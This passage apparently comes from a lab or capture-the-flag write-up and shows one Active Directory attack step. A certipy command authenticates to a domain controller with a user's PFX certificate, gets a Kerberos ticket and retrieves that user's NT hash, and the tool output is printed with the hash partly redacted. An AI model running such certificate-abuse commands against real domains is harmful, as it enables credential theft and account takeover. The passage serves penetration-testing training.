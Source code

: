 and got hash with this command

    ➜  journeys certipy auth -pfx 'gabriel.stewart.pfx' -username 'gabriel.stewart' -domain vigilant.vl -dc-ip 10.10.248.117
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: gabriel.stewart@vigilant.vl
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'gabriel.stewart.ccache'
    [*] Trying to retrieve NT hash for 'gabriel.stewart'
    [*] Got hash for 'gabriel.stewart@vigilant.vl': aad3b435b51404eeaad3b435b51404ee:<redacted>

